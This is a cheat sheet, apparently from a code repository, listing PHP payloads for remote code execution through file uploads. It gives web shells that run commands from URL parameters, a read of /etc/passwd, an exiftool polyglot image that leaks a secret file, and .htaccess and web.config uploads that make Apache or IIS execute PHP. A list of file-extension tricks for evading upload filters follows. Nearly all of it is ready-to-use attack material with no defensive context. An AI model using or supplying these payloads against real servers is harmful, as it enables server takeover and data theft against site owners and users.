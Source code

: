 # PHP Payloads for RCE

## Normal Payloads
```php
<?php echo file_get_contents('/etc/passwd'); ?> >> To read files
<?php system($_GET['cmd']); ?> >> For system command
<?php passthru($_GET['cyborg71']); ?> >> For system command*
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" hacker.jpg -o polyglot.php
```
## Exploiting Server Configuration
___
### Apache Bypass
```
Step 1 >>
filename=".htaccess"
Content-Type: text/plain
AddType application/x-httpd-php .shell
Step 2 >>
Content-Type: application/x-httpd-php
<?php system($_GET['cmd']); ?>
```
### IIS Bypass
```
Step 1 >>
filename="web.config"
Content-Type: text/plain
<configuration>
    <system.webServer>
        <staticContent>
            <mimeMap fileExtension=".php" mimeType="application/x-httpd-php" />
        </staticContent>
    </system.webServer>
</configuration>
Step 2 >>
Content-Type: application/x-httpd-php
<?php system($_GET['cmd']); ?>
```
## Obfuscating File Extensions
```
.php
.php3
.php4
.php5
.pHp
.shtml
.php.jpg
.php.png
%2Ephp
.php;.jpg
.php;.png  
.php%00.jpg
.php%00.png
.p.phphp
```
